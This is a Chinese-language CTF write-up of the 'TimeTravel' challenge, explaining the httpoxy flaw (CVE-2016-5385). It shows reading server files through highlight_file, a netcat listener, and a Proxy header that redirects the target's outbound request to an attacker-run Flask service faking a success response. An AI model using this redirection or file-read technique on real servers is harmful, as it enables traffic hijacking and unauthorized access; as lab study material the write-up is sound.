

# 前言

通过 **[V&N2020 公开赛]TimeTravel**这道题了解一下CVE-2016-5385

# 做题过程

## 分析
拿到题目后给了源码，需要传入flag参数访问内网api才能获取flag

```php
<?php
error_reporting(0);
require __DIR__ . '/vendor/autoload.php';

use GuzzleHttp\Client;

highlight_file(__FILE__);

if(isset($_GET['flag'])) {
    $client = new Client();
    $response = $client->get('http://127.0.0.1:5000/api/eligible');
    $content = $response->getBody();
    $data = json_decode($content, TRUE);
    if($data['success'] === true) {
      echo system('/readflag');
    }
}

if(isset($_GET['file'])) {
    highlight_file($_GET['file']);
}

if(isset($_GET['phpinfo'])) {
    phpinfo();
}
```

这里刚好传入file参数利用`highlight_file()`读取文件，一开始顺着`require __DIR__ . '/vendor/autoload.php'`把include的文件都读了，粗略地审计了一遍，发现是第三方库，没有可控点。于是读取`/proc/1/cmdline`返回

```bash
#/proc/1/cmdline
/bin/sh -c /start.sh

#start.sh内容如下
#!/usr/bin/env bash

chmod +x /readflag
chmod +s /readflag
echo $FLAG > /flag && export FLAG=not_flag && FLAG=not_flag && cd /srv/

chmod 700 /flag

python3 /srv/app.py &


php-fpm &

service nginx start

tail -F /dev/null
```

由此发现python服务，读取它。乍一看的思路以为是要修改靶机时间，然后就卡住了。

```python
from flask import Flask
import datetime
import json
app = Flask(__name__)

@app.route('/api/eligible')
def source():
    current_year = int(datetime.datetime.now().strftime("%Y"))
    if current_year < 2050:
        return json.dumps({"success": False})
    else:
        return json.dumps({"success": True})

if __name__ == "__main__":
    app.run(host='127.0.0.1')
```

## 信息搜集

注意到上面引入了这个`use GuzzleHttp\Client;`，google之`GuzzleHttp vuln`，注意到了[Security vulnerabilities in specific guzzlehttp/guzzle versions](https://github.com/thephpleague/oauth2-client/issues/1022)。在里面发现了[HTTP Proxy header vulnerability](https://github.com/advisories/GHSA-m6ch-gg5f-wxx3)，这个看起来和题目相关。

>PHP through 7.0.8 does not attempt to address RFC 3875 section 4.1.18 namespace conflicts and therefore does not protect applications from the presence of untrusted client data in the HTTP_PROXY environment variable, which might allow remote attackers to redirect an application's outbound HTTP traffic to an arbitrary proxy server via a crafted Proxy header in an HTTP request, as demonstrated by (1) an application that makes a getenv('HTTP_PROXY') call or (2) a CGI configuration of PHP, aka an "httpoxy" issue.
>

大概意思就是攻击者可以添加`Proxy`头部，服务端由此创建一个`HTTP_PROXY`的env，服务端经过getenv('HTTP_PROXY')调用，或者交由CGI处理请求，会使请求被重定向到攻击者指定的代理服务上。

## 概念验证

先在vps监听一个端口
```bash
root@iZ7xv8mogva855e0yhraz6Z:~# nc -lvnp 10001
listening on [any] 10001 ...
```

添加Proxy头部，设置flag参数，发起请求观察vps情况



```bash
root@iZ7xv8mogva855e0yhraz6Z:~# nc -lvnp 10001
listening on [any] 10001 ...
connect to [172.28.228.144] from (UNKNOWN) [117.21.200.176] 9863
GET http://127.0.0.1:5000/api/eligible HTTP/1.1
Host: 127.0.0.1:5000
Proxy-Connection: Keep-Alive
User-Agent: GuzzleHttp/6.2.0 curl/7.64.0 PHP/5.6.23


```

可以看到服务端成功被代理到vps，由此可以想到通过代理来重定向服务端的python服务到我们自己的服务，修改json值

## 漏洞利用

在vps部署服务

```python
from flask import Flask
import datetime
import json
app = Flask(__name__)

@app.route('/api/eligible')
def source():
    return json.dumps({"success": True})

if __name__ == "__main__":
    app.run(host='0.0.0.0',port=10001)
```

再次发送请求，即可获取flag

```bash
root@iZ7xv8mogva855e0yhraz6Z:~/workspace# python3 app.py 
 * Serving Flask app 'app'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:10001
 * Running on http://172.28.228.144:10001
Press CTRL+C to quit
117.21.200.176 - - [22/Sep/2024 21:33:41] "GET http://127.0.0.1:5000/api/eligible HTTP/1.1" 200 -
```